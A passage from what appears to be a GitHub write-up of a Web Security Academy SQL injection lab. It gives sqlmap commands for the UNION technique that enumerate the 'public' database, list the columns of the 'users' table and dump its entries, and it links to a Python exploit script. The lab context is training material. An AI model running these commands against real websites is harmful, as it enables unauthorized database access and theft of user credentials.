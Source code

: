 &nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --batch : Never ask for user input, use the default behavior <br/>

* Execution: <br/>

![SQLMap_1](https://user-images.githubusercontent.com/101610095/220312739-645d4223-81ca-4ef9-b413-977a79cdf9ce.png) <br/>
> :memo: ***Here the database ```public``` is the one we are interested in.***

##### Fetching tables for database: 'public':
* Command:
```shell
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public --tables --batch
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --tables : Enumerating database tables <br/>

* Execution: <br/>
![sqlmap_2](https://user-images.githubusercontent.com/101610095/220314044-2082729c-fe77-4806-971b-f04bae465756.png)

##### Fetching columns for table 'users' in database 'public':
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --columns --batch
```
* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --columns : Enumerating database table columns <br/>

* Execution: <br/>
![sqlmap_3](https://user-images.githubusercontent.com/101610095/220316231-52c2d7aa-01ea-40b5-8bdd-122f2ae322f9.png)

##### Dumping data from table 'users' in database 'public':
* Command:  
```bash
sqlmap --proxy=http://127.0.0.1:8080 -u 'https://0aa8007d033d30a9c0f2d25500e700ca.web-security-academy.net/filter?category=*' -p category --technique=U --threads=5 --level=4 --risk=3 -D public -T users --dump --batch 
```

* Options: <br/>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; --dump : Dump database table entries <br/>

* Execution: <br/>
![sqlmap_4](https://user-images.githubusercontent.com/101610095/220315870-2a6abc2b-9898-4237-a738-b08f71fd3616.png)

#### Python3:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%234/Lab-5.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-5.py --help
usage: Lab-5.py [-h] -u URL [-n]

Usage Example: python3 Lab-5.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
```